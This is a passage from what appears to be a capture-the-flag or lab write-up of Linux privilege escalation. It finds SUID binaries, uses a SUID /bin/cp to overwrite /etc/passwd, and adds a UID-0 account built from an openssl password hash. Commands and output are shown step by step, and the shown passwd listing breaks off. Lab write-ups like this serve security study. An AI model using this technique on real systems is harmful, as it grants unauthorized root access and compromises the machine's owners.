 Next I checked to see if there are any SUID binaries. The ones that stuck out from the output was cp we can use cp to overwrite the /etc/passwd file with a new file we construct containing a hash.


```
www-data@ubuntu:/var/tmp$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/arping
/usr/bin/wget
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/cp
/bin/su

```


Lets start by generating a salt for our password and user.

```
┌──(hhhharshil㉿kali)-[~]
└─$ openssl passwd -1 -salt harshil password

$1$harshil$WltreHKVrjA5Ebe0GHq8W0

```

After generating this password we must modify it to be in the format of /etc/passwd

``
harshil:$1$harshil$WltreHKVrjA5Ebe0GHq8W0:0:0:root:/root:/bin/bash
``

Next I will cat the contents of /etc/passwd into a passwd file in /var/tmp. Then I will edit this passwd file to contain the hash generated above. After doing so I will copy over /etc/passwd.

```
www-data@ubuntu:/var/tmp$ cp passwd /etc/passwd
www-data@ubuntu:/var/tmp$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```